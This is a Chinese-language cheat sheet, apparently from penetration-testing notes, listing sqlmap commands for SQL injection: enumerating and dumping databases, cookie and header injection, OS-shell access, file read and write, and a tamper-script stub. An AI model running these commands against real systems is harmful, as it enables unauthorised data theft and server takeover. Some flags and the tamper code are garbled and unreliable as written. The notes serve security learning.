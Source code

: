 ## 31. sqlmap
#sqlmap
-   检测等级 --level(1-5) 逐级增强

### 31.1 GET注入

``` shell
python ./sqlmap.py -u "url" #检测
python ./sqlmap.py -u "url" --dbs #列出数据库
python ./sqlmap.py -u "url" --table #表
python ./sqlmap.py -u "url" --columns -T "tbname"
python ./sqlmap.py -u "url" --dump -T "tbname" -C "cname" #爆字段 
```

### 31.2 POST注入

``` shell
--data "id=1"
```

### 31.3 COOKIE注入

``` shell
--cookie "" --level 3
```

### 31.4 属性头注入

``` shell
--refere "" --level 3
--headers "" --level 3
```

### 31.5 星号指定优先级

``` shell
python ./sqlmap.py -u "?id=1&passwd=2*" #优先检测passwd参数
```

### 31.6 命令执行

```shell
python ./sqlmap.py -u "url" --os-shell #系统交互shell
python ./sqlmap.py -u "url" --os-cmd=ipconfig #
```

### 31.7 自定义数据

```shell
-r "./request.txt"
```

### 31.8 注入的类型

-   B：Boolean-based blind SQL injection（布尔盲注）
-   E：Error-based SQL injection（报错注入）
-   U:UNION query SQL injection（联合请求注入）
-   S：Stacked queries SQL injection（堆叠注入）
-   T：Time-based blind SQL injection（延时盲注）

```shell
--technique #指定注入类型
```

### 31.9 其他

```shell
-proxy "http:..127.0.0.1:8118" #代理
-thread 3 #指定多线程
-sql-query "sql" #执行指定的sql语句
-file-read #读指定文件
-file-write "./temp.txt" #写入本地文件
-dbms #指定数据库
--start 1 --stop 3 #获取一段数据
--prefix "a" --suffix "b" #前缀或后缀
--dump
```

### 31.10 添加自定义脚本

```python
# sqlmap/tamper/temp.py
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOWSET
def dependencies():
    pass
def temper(payload,**kwargs):
    return payload.replace("","\\").replace("","\\")
```

```shell
--tamper=temp
```

### 31.11 DNS查询

```shell
--dns-domain
```


